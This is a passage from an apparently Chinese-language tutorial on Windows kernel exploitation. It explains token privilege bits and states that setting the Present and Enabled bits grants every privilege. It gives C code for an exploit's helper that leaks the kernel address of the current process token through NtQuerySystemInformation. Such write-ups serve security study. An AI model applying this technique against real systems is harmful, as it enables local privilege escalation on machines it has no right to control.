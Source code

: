 Present：表示当前Token所拥有的权限，并不代表这些权限启用或者禁用，一旦一个Token创建了，则无法再给其增加权限，只能是启用或者禁用这里的特定权限。

Enabled：代表当前Token所有启用的权限。

EnableByDefault:代表令牌在默认时启用的权限

因此如果修改 Present位 和 Enabled 位为1，就可以启用所有权限。

要修改就需要找到当前进程的 token 的内核基地址，利用 NtQuerySystemInformation 函数，如 [NtQuerySysInfo_SystemHandleInformation](https://github.com/Ryze-T/windows_kernel_address_leaks/blob/master/NtQuerySysInfo_SystemHandleInformation/NtQuerySysInfo_SystemHandleInformation/NtQuerySysInfo_SystemHandleInformation.cpp)。

EXP也是一样的方法：

```C
DWORD64 GetKernelPointer(HANDLE handle, DWORD type)
{
  // 申请0x20的空间
  PSYSTEM_HANDLE_INFORMATION buffer = (PSYSTEM_HANDLE_INFORMATION)malloc(0x20);

  DWORD outBuffer = 0;
  // 查询自身拥有的所有句柄信息
  NTSTATUS status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemHandleInformation, buffer, 0x20, &outBuffer);

  if (status == (NTSTATUS)0xC0000004L)
  {
    free(buffer);
    buffer = (PSYSTEM_HANDLE_INFORMATION)malloc(outBuffer);
    status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemHandleInformation, buffer, outBuffer, &outBuffer);
  }

  if (!buffer)
  {
    printf("[-] NtQuerySystemInformation error \n");
    return 0;
  }

  for (size_t i = 0; i < buffer->NumberOfHandles; i++)
  {
    DWORD objTypeNumber = buffer->Handles[i].ObjectTypeIndex;

    // type 0x5 token
    if (buffer->Handles[i].UniqueProcessId == GetCurrentProcessId() && buffer->Handles[i].ObjectTypeIndex == type)
    {
      if (handle == (HANDLE)buffer->Handles[i].HandleValue)
      {
        DWORD64 object = (DWORD64)buffer->Handles[i].Object;
        free(buffer);
        return object;
      }
    }
  }
  printf("[-] handle not found\n");
  free(buffer);
  return 0;
}
```
